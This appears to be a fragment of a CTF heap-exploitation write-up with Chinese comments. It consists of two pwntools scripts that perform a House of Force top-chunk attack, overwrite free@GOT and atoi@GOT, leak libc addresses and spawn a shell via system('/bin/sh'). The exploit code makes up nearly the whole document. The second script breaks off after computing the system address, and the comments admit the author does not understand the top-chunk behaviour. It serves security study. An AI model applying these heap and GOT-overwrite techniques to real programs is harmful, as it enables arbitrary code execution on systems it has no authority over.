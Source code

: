 ```py

content_ptr = 0x0804B120
content_len = 0x0804B0A0

target_addr = content_len - 8		#?
off_target = target_addr - topchunk_addr
malloc_size = off_target - 4 -7		#??

add(malloc_size -4 , '')
print "malloc_size : " + hex(malloc_size) + "\ntarget_addr : " + hex(target_addr)
# now, topchunk_addr -> content_len-8	?

# 关于这个topchunk指向的问题，上下两种方法在调试时，试了malloc几个相近的大小（±0x10），pwndbg的topchunk都指向0x804b000，在后面分配时也没有显示增加了chunk
# 目前还不知道是为啥...



payload = p32(16)*3
payload += 'a'*(content_ptr - content_len -12) 
payload += p32(elf.got['free']) + p32(elf.got['atoi'])*2
#create 3 contents, with len==16, contents = free_got_addr, atoi_got_addr, ~
add(1000,payload)

edit(0,p32(elf.plt['puts']))
#free_got points to puts_plt


delete(1)		#puts no.1's content, which is atoi_got_addr
atoi_addr = u32(p.recv(4))
print "atoi_addr: " + hex(atoi_addr)
offset = atoi_addr - libc.symbols['atoi']
sys_addr = offset + libc.symbols['system']

edit(2,p32(sys_addr))
p.sendlineafter("option--->>\n",'/bin/sh\x00')
p.interactive()

```

```py
#泄露puts
## 前面与↑相同


content_ptr = 0x0804B120
content_len = 0x0804B0A0
target_addr = content_ptr 
malloc_size = target_addr - topchunk_addr -0x10
add(malloc_size, 'junk')
print "malloc_size : " + hex(malloc_size) + "\ntarget_addr : " + hex(target_addr)
# topchunk -> content_ptr - 0x8

add(0x18,'')

# 以下部分用gdb查看内存中的内容比较容易搞懂
payload = p32(0) + p32(elf.got['free']) + p32(elf.got['puts']) + p32(0x804b130) + '/bin/sh'
edit(1,payload )
edit(1,p32(elf.plt['puts']))    #修改free_got为puts_plt
delete(2)   #输出puts_addr

puts_addr = u32(p.recv(4))
print "puts: " + hex(puts_addr)
sys_addr = puts_addr - 0x24f00
```